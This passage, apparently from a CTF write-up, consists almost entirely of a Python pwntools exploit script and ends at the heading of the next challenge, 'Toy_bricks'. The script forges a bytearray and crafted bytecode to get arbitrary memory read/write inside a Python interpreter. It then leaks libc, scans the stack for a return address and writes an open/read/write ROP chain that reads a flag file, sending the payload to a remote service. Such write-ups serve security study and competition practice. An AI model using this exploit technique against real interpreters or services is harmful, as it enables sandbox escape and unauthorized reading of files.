 ```python
fake_bytearray=p64(0x1000)+p64(id(bytearray))+p64(0x7fffffffffffffff)+p64(0)+p64(0)+p64(0)+p64(0)
fake_bytearray_obj=bytearray(fake_bytearray)
fake_bytearray_obj_ptr=id(fake_bytearray_obj)+0x20
const_tuple_ptr=id(const_tuple)+0x18
offset=(fake_bytearray_obj_ptr-const_tuple_ptr)//8

exp_func_bytecode=b""
for i in range(4):
	exp_func_bytecode+=p8(EXTENDED_ARG)+p8(offset>>(32-i*8))
exp_func_bytecode+=p8(LOAD_CONST)+p8(offset)
exp_func_bytecode+=p8(RETURN_VAL)

flag_str="flag"
flag_str_addr=id(flag_str)+0x30
exp_func.__code__=exp_func.__code__.__class__(0,0,0,0,0,0,exp_func_bytecode,const_tuple,(),(),"","",0,b"")
exp_ptr=exp_func()

libc_base=u64(exp_ptr[{}:{}+8])-{}
print("libc_base:",hex(libc_base))
pop_rdi=libc_base+0x23b72
pop_rsi=libc_base+0x2604f
pop_rdx_r12=libc_base+0x119241
environ_addr={}
ope_addr=libc_base+{}
read_addr=libc_base+{}
write_addr=libc_base+{}
libc_start_main_ret_addr=libc_base+{}
environ_heap_addr=u64(exp_ptr[environ_addr:environ_addr+8])
stack_addr=u64(exp_ptr[environ_heap_addr:environ_heap_addr+8])&0xfffffffffffffff0#-0x368
while(stack_addr):#search for return addr in stack
	tmp=u64(exp_ptr[stack_addr:stack_addr+8])
	if(tmp==libc_start_main_ret_addr):
		break
	stack_addr-=8
flag_addr=stack_addr+0x200

payload=p64(pop_rdi)+p64(flag_str_addr)+p64(pop_rsi)+p64(0)+p64(pop_rdx_r12)+p64(0)+p64(0)+p64(ope_addr)
payload+=p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(flag_addr)+p64(pop_rdx_r12)+p64(0x40)+p64(0)+p64(read_addr)
payload+=p64(pop_rdi)+p64(1)+p64(write_addr)
c=stack_addr
for x in payload:
	exp_ptr[c]=x
	c+=1
EOF
""".format(malloc_got,malloc_got,malloc_offset,environ_offset,open_offset,read_offset,write_offset,libc_start_main_offset)

print(len(code))
with open("exp","w") as fd:
	fd.write(code)

sh=remote("127.0.0.1",1337)
sh.sendafter('> ',code)
sh.interactive()
```
## Toy_bricks
### 漏洞分析
> 漏洞发现者: [@P1umer](https://p1umer.github.io/)
